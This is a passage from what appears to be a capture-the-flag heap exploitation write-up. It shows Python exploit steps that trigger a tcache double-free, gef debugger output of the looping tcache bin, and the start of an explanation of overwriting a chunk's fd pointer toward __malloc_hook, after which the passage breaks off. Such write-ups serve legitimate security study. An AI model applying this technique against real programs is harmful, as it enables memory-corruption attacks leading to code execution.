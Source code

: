 ```py
# heap_list[2] => chunk_5 (0x71)
# this will allocate chunk_5 exactly in the same place as chunk_1
new_heap(0x68, 'f' * 0x67)

# we used tcache_dup attack here which is due to double free
# freeing chunk_1 and chunk_5 put them in the same bin in tcache
# even though they are pointing to the same address
# This will create a loop within the tcache bin
delete_heap(0)
delete_heap(2)
```

Now, doing so, when we see the heap layout:-

```asm
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=2  ←  Chunk(addr=0x555555757770, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757770, size=0x70, flags=PREV_INUSE)  →  [loop detected]
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x5555557577d0, bk=0x5555557577d0
 →   Chunk(addr=0x5555557577e0, size=0x600, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg 0x555555757770
0x555555757770:	0x0000555555757770	0x0000555555757010  The fd of this chunk is overwritten with its own address
0x555555757780:	0xdadadadadadadada	0xdadadadadadadada
0x555555757790:	0xdadadadadadadada	0xdadadadadadadada
0x5555557577a0:	0xdadadadadadadada	0xdadadadadadadada
```

As shown from the `tcache` bins, we have a `free`'d chunk's `fd` is pointing to it's own address, which commonly refer as `tcache` dup entry. Now, we will overwrite the `fd` of the same chunk with the target chunk, for the target chunk I used the `__malloc_hook` but you can also go with the `__free_hook` way:-
